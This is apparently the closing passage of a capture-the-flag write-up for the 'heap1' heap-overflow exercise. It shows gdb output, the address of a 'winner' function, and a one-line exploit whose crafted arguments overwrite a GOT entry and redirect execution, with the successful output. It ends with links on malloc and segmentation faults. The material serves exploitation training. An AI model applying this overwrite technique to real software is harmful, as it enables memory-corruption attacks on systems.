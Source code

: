 ```bash
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x30303030:	Error while running hook_stop:
Cannot access memory at address 0x30303030
0x30303030 in ?? ()
```


```bash
(gdb) x winner
0x8048494 <winner>:	0x83e58955

(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```


```bash
$ ./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1724938770
```


## Resources
https://www.geeksforgeeks.org/dynamic-memory-allocation-in-c-using-malloc-calloc-free-and-realloc/

https://www.geeksforgeeks.org/segmentation-fault-c-cpp/#7-dereferencing-an-uninitialized-or-null-pointer

